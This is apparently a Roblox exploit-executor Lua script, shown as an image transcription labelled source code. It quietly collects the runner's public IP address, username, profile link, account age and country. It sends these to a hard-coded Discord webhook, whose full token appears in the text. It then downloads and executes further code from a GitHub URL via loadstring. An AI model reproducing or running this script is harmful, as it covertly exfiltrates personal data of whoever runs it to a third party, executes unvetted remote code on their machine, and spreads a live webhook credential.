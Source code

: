 local hwid = "ไม่ได้ดัก"
local excutorcheck = "ไม่ได้ดัก"
local ip = tostring(game:HttpGet("https://api.ipify.org", true))
local GetName = game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId)
local url = "https://discordapp.com/api/webhooks/869544310381637642/_Kcd3KukxHo1DholkDvyLVncGd5Pigw5uWU36wmJzVpa6HpSn5yXha8DuQBhteLDbpB6"local data = {
   ["content"]= " ",
   ["embeds"]= {
    {
      ["title"]= "มีคนรันสคริป",
      ["color"]= 16761344,
      ["fields"]= {
        {
          ["name"]= "Player Name",
          ["value"]= game.Players.LocalPlayer.Name,
          ["inline"]= true
        },
        {
          ["name"]= "Player Profile",
          ["value"]= "https://www.roblox.com/users/"..game.Players.LocalPlayer.UserId.."/profile",
          ["inline"]= true
        },
        {
          ["name"]= "Account Ages",
          ["value"]= game.Players.LocalPlayer.AccountAge,
          ["inline"]= true
        },
        {
          ["name"]= "Excutor",
          ["value"]= excutorcheck,
          ["inline"]= true
        },
        {
          ["name"]= "Game Name",
          ["value"]= GetName.Name,
          ["inline"]= true
        },
        {
          ["name"]= "Game Link",
          ["value"]= "https://roblox.com/games/"..game.PlaceId.."/",
          ["inline"]= true
        }
      },
      ["footer"]= {
        ["text"]= "IP : "..ip.."   |   HWID : "..hwid.."   |   ".."Country : "..game:GetService("LocalizationService"):GetCountryRegionForPlayerAsync(game.Players.LocalPlayer)
      }
    }
  },
}
local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
   ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef)
loadstring(game:HttpGet("https://raw.githubusercontent.com/DevilXD99/-/main/README.md"))()

